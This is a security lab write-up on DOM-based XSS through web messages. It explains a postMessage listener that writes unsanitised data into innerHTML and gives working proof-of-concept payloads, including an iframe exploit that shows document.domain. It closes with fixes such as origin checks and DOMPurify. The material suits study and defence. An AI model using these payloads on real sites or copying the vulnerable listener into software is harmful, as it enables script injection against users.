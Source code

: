 ## DOM-based vulnerabilities

### Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
-Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
```
window.postMessage('<img src=x onerror=alert(1)>', '*');

'*' sends to any origin.
The payload uses an event handler (onerror) to trigger JavaScript.

```


### Real-World Exploit
```
If you can open the target page in an iframe or another tab, you can inject:

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```


### Fix
Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
Sanitize data (e.g., DOMPurify) before inserting into the DOM:

document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
Avoid using innerHTML unless necessary — use textContent for plain text.
```